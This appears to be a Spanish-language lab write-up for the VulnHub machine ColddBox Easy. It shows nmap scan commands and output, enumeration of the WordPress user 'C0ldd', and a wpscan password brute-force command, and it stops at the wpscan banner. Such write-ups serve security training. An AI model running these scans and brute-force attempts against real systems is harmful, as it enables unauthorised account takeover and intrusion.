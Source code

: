 # Write Up ColddBoxEasy\_EN VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-30 13:59 CEST
Nmap scan report for 192.168.5.129
Host is up (0.00033s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.1.31
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
MAC Address: 00:0C:29:1D:68:F1 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.28 seconds
```

Si nos vamos a la pagina principal del puerto `80` veremos un `wordpress` y si leemos un poco vemos que esta creado por un usuario llamado `C0ldd` por lo que lo probaremos en la siguiente ruta...

```
URL = http://<IP>/wp-admin/
```

Veremos el panel de login de `wordpress` y si probamos el usuario dira que es valido, ahora tendremos que sacar la contarseña...

```shell
wpscan --url http://<IP>/ --usernames C0ldd --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
```